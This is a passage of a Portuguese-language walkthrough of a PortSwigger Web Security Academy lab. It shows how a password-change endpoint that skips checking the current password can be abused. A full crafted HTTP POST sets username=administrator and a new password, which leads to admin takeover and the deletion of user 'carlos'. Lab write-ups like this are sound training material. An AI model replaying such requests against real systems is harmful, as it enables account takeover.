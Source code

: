 ```http
csrf=yBFUcEjv3BNj12JwL35GB8ceMNZKb7vb&username=wiener&current-password=peter&new-password-1=sonael&new-password-2=sonael

```

Porém o back-end não valida se a requisição contém o parâmetro `"current-password"`.

**request** | **response** 
:---------: | :------:
![request](isolation_request.png) | ![response](isolation_response.png)


E podemos usar isso para alterar a senha do usuário `administrador`, logar como `administrador` e deletar o usuário `carlos`.

Para isso temos que enviar uma requisição com o parâmetro `username` igual a `administrador` e os parametros `new-password-1` e `new-password-2` iguais a `sonael`.

```http

POST /my-account/change-password HTTP/1.1
Host: 0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net
Cookie: session=yTKESN6eFVxEBKCGbr4kTyLxlrYjT4nc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: https://0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net
Referer: https://0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=sByDr6GPTMqIQGgrLm3g2ODJOa2zgS2w&username=administrator&new-password-1=sonael&new-password-2=sonael

```

Agora vamos logar como `administrador` entrar no **"Admin Panel"**.

![admin](isolation_admin_panel.png)


E deletar o usuário `carlos` para concluir o laboratório.


![carlos](isolation_delete.png)


---